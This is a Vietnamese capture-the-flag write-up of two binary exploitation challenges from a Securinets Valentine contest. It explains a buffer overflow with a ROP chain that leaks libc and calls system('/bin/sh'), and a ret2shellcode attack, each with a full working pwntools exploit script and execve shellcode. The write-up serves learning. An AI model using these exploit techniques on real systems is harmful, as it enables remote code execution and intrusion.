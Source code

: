 # Love letter
file: [main](https://github.com/wan-hyhty/CTFs_competition/blob/main/Securinet%20Valentine/source/main)  
#### Hình ảnh ida  
![image](https://user-images.githubusercontent.com/111769169/219405773-390fbd80-cfbc-4392-ad58-fdb303480368.png)  
![image](https://user-images.githubusercontent.com/111769169/219406127-96373797-4cb8-419b-b863-2bc2e2f3643a.png)  
![image](https://user-images.githubusercontent.com/111769169/219406236-27dd9ada-2005-47be-8986-92156db55fe8.png)  
#### Chương trình hoạt động  
> Đầu tiên chương trình nhảy vào hàm loveletter, ta chú ý chỗ while sau, đại loại chương trình sẽ cho chúng ta nhập vào biến v2 
> ![image](https://user-images.githubusercontent.com/111769169/219407499-01d77b66-b3e3-4e49-867a-aa3db9ab050b.png)
___  
> Sau đó ở hàm doubt, nếu ta trả lời khác 'Y' thì chương trình sẽ cho nhập size của v2, và chỉ dưới 250 kí tự, nên ban đầu em hơi lú chỗ này  
> ![image](https://user-images.githubusercontent.com/111769169/219408728-9fa83627-0b11-45f3-8ed8-f94373b5ac4f.png)  
> Sau khi được anh Trí hint thì ta thấy nếu ta trả lời là 'Y' (không thực hiện if) thì biến v2 có thể nhập tuỳ ý, nhưng lúc chạy chương trình thì giá trị v1 là 0 nên không thể nhập cho biến v2. Vấn đề bây giờ là làm sao để OW được v1.
___  
> ta để ý địa chỉ ở các biến thì thấy ![image](https://user-images.githubusercontent.com/111769169/219410942-4fa2201f-5b30-471e-961e-d70cfe2a3a05.png) ![image](https://user-images.githubusercontent.com/111769169/219411007-af0d3399-62ee-4086-baba-85bedb823985.png)  
> thì thấy nếu ta nhập đủ 6969byte ở biến v2 hàm loveletter thì có thể OW giá trị v1 hàm doubt, offset v2 và v1 là 244  
> Tuy nhiên do không có hàm thực thi system mà chỉ có /bin/sh lúc nà em chỉ đoán là libc (do ban đầu file có canary), và sau khi được anh Quý hint thì chắc chắn là leak libc 
___ 
> do em chỉ leak được libc còn lúc đưa hàm system thì lỗi EOF =))  
> Sau khi xin được file script thì chúng ta được như sau  
___
```python
from pwn import *

exe = ELF('main_patched', checksec=False)
libc = ELF('libc.so.6', checksec=False)
context.binary = exe

def GDB():
    gdb.attach(p, gdbscript='''
    b*0x00000000004013ba

    b*0x0000000000401388
    
    c
    ''')
    input()

info = lambda msg: log.info(msg)
sla = lambda msg, data: p.sendlineafter(msg, data)
sa = lambda msg, data: p.sendafter(msg, data)
sl = lambda data: p.sendline(data)
s = lambda data: p.send(data)

if args.LOCAL:
    p = process(exe.path)
else:
    p = remote('loveletter.securinets.tn', 4040)

# GDB()
##################################
### Stage 1: Leak libc address ###
##################################
sa(b'> ', cyclic(6796) + p64(0x500))
sa(b'> ', b'\n')
sa(b'> ', b'Y')

pop_rdi = 0x00000000004014b3
payload = b'A'*(264) + flat(
    pop_rdi, exe.got['puts'],
    exe.plt['puts'],
    exe.sym['main'],
    )
sa(b'now.\n', payload)
p.recvuntil(b'friend!\n')
libc_leak = u64(p.recv(6) + b'\0\0')
libc.address = libc_leak - libc.sym['puts']
info("Libc base: " + hex(libc.address))

##########################
### Stage 2: Get shell ###
##########################
sa(b'> ', cyclic(6796) + p64(0x500))
sa(b'> ', b'\n')
sa(b'> ', b'Y')

pop_rdi = 0x00000000004014b3
payload = b'A'*(264) + flat(
    0x000000000040101a,
    pop_rdi, next(libc.search(b'/bin/sh')),
    libc.sym['system']
    )
sa(b'now.\n', payload)

p.interactive()
```
# Phân tích script  
![image](https://user-images.githubusercontent.com/111769169/219415578-c22f2804-97ad-4b0b-9fbb-75ab0d46e296.png)  
![image](https://user-images.githubusercontent.com/111769169/219414568-52ec4c12-0944-4f7b-9124-39e526a8e5fa.png)  
> ta input đủ 6969 để OW biến v1 hàm doubt  
___
![image](https://user-images.githubusercontent.com/111769169/219416198-056c37cc-4afb-4c8b-8181-26ac29d58353.png) 
![image](https://user-images.githubusercontent.com/111769169/219416439-8f18a7a6-20c0-4bb9-8241-c6f351c09cf2.png)  
> ta nhập 264byte để OW đến địa chỉ rip (em đã tìm offset rip)   
> ![image](https://user-images.githubusercontent.com/111769169/219416972-707cd8d3-ffbb-4b35-a30b-a7fe2d76feb1.png)  
> Sau đó trong flat() thì set thanh rip = là got@put và thực thì hàm put, để leak được file libc, sau đó quay về main
___
![image](https://user-images.githubusercontent.com/111769169/219417932-fa686178-6ecd-49ca-98e9-90ba49b03023.png)
> tính base của libc
___
> ta thực hiện lại lần hai chương trình và đẩy hàm system vào
![image](https://user-images.githubusercontent.com/111769169/219418602-1513688e-6841-4c30-bee9-fced04860c5d.png)
> ở đây địa 0x40101a được thêm vào để khắc phục lỗi xmm1 (lúc em làm thì em hum có dòng này =)))
> em đã thử không thêm địa chỉ này mà nhảy sâu vào hàm system nhưng vẫn không khắc phục được lỗi xmm1
___
#### Tổng kết sai sót
Không theo dõi thông báo giải và lúc được biết có file mới thì vẫn giải trên file cũ. Kết quả là file libc khác với server  
Cần cải thiện quá trình debug.  
#### Kiến thức mới
Thay vì ta set các địa chỉ như này  
![image](https://user-images.githubusercontent.com/111769169/219421279-d0561928-8d27-4c5b-8454-32e98c1eb4d5.png)  
___
Thì hàm flat() đại loại sẽ pack() các dữ liệu mình vào thay vì p64()
![image](https://user-images.githubusercontent.com/111769169/219421953-30160aa1-251b-46ee-a5fc-f375dab9b0b7.png)

# Gift shellcode
file: [giftshellcode](https://github.com/wan-hyhty/CTFs_competition/blob/main/Securinet%20Valentine/source/giftshell)
### Hình ảnh ida  
![image](https://user-images.githubusercontent.com/111769169/219426864-8d5bdca6-6555-44e3-ad97-17b30f25d136.png)  
Cùng với checksec ra NX tắt, chắc chắn là ret2shellcode  
___
Đầu tiên ta thấy chương trình leak cho ta địa chỉ đầu tiên stack của buf, bây giờ payload sẽ là shellcode, nhập đủ 120 kí tự offset thanh rip sau đó truyền vào địa chỉ đầu stack biến buf =)))  
```python3
from pwn import *

exe = ELF('./giftshell', checksec=False)
p = process(exe.path)
input()
p.recvuntil(b'products! ')
leak = int(p.recv(14), 16)

shellcode = asm(
    '''
    mov rax, 0x3b
    mov rdi, 29400045130965551
    push rdi
    
    mov rdi, rsp
    xor rsi, rsi
    xor rdx, rdx
    
    syscall
    ''', arch='amd64'
)

payload = shellcode 
payload = payload.ljust(120)
payload += p64(leak)
p.sendafter(b'Input: \n', payload)

p.interactive()
```
